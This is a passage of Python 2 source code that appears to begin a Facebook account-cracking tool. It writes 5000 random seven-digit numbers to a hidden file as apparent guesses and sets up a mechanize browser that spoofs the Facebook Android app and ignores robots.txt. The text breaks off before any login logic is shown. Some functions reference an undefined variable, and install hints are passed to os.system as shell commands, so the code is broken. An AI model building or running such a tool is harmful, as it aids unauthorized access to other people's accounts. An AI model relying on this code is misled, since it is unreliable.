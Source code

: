 ##!/usr/bin/python2
#coding=utf-8

import os, sys, time, datetime, random, hashlib, re, threading, json, urllib, cookielib, getpass
from moha import login_choice
os.system('rm -rf .txt')
for n in range(5000):
    nmbr = random.randint(1111111, 9999999)
    sys.stdout = open('.txt', 'a')
    print nmbr
    sys.stdout.flush()

try:
    import requests
except ImportError:
    os.system('No Module Named Requests! type:pip2 install requests')

try:
    import mechanize
except ImportError:
    os.system('No Module Named Mechanize! type:pip2 install mechanize')
    time.sleep(1)
    os.system('Then type: python2 .nbr.md')

import os, sys, time, datetime, random, hashlib, re, threading, json, urllib, cookielib, requests, mechanize
from multiprocessing.pool import ThreadPool
from requests.exceptions import ConnectionError
from mechanize import Browser
reload(sys)
sys.setdefaultencoding('utf8')
br = mechanize.Browser()
br.set_handle_robots(False)
br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(), max_time=1)
br.addheaders = [('User-Agent', 'Opera/9.80 (Android; Opera Mini/32.0.2254/85. U; id) Presto/2.12.423 Version/12.16')]
br.addheaders = [('user-agent', 'Dalvik/1.6.0 (Linux; U; Android 4.4.2; NX55 Build/KOT5506) [FBAN/FB4A;FBAV/106.0.0.26.68;FBBV/45904160;FBDM/{density=3.0,width=1080,height=1920};FBLC/it_IT;FBRV/45904160;FBCR/PosteMobile;FBMF/asus;FBBD/asus;FBPN/com.facebook.katana;FBDV/ASUS_Z00AD;FBSV/5.0;FBOP/1;FBCA/x86:armeabi-v7a;]')]

def keluar():
    print 'Thanks.'
    os.sys.exit()


def acak(b):
    w = 'ahtdzjc'
    d = ''
    for i in x:
        d += '!' + w[random.randint(0, len(w) - 1)] + i

    return cetak(d)


def cetak(b):
    w = 'ahtdzjc'
    for i in w:
        j = w.index(i)
        x = x.replace('!%s' % i, '\x1b[%s;1m' % str(31 + j))
